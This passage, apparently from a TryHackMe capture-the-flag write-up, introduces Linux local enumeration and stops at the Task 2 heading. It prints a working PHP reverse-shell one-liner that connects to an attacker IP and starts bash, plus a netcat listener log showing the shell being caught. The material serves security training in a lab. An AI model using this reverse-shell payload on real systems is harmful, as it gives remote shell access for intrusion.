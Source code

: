 # Linux: Local Enumeration

Learn to efficiently enumerate a linux machine and identify possible weaknesses

[Linux: Local Enumeration](https://tryhackme.com/room/lle)

## Topic's

* Linux Local Enumeration

## Task 1 Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is **definitely** for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:

* Unit 1 - Stabilizing the shell
  * Exploring a way to transform a reverse shell into a stable bash or ssh shell.
* Unit 2 - Basic enumaration
  * Enumerate OS and the most common files to identify possible security flaws.
* Unit 3 - /etc
  * Understand the purpose and sensitivity of files under /etc directory.
* Unit 4 - Important files
  * Learn to find files, containing potentially valuable information.
* Unit 6 - Enumeration scripts
  * Automate the process by running multiple community-created enumeration scripts.
  
Browse to the `MACHINE_UP:3000` and follow the instructions.

To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

How reverse shells work in a nutshell:

![](https://i.imgur.com/WlwnnqK.png)

`php -r '$sock=fsockopen("10.8.106.222",9001);exec("/bin/bash -i <&3 >&3 2>&3");'`

```
kali@kali:~/CTFs/tryhackme/Linux Local Enumeration$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.85.18 41576
bash: cannot set terminal process group (559): Inappropriate ioctl for device
bash: no job control in this shell
manager@py:~/Desktop$ 
```

1. Let's go!

`No answer needed`

## Task 2 Unit 1 - tty
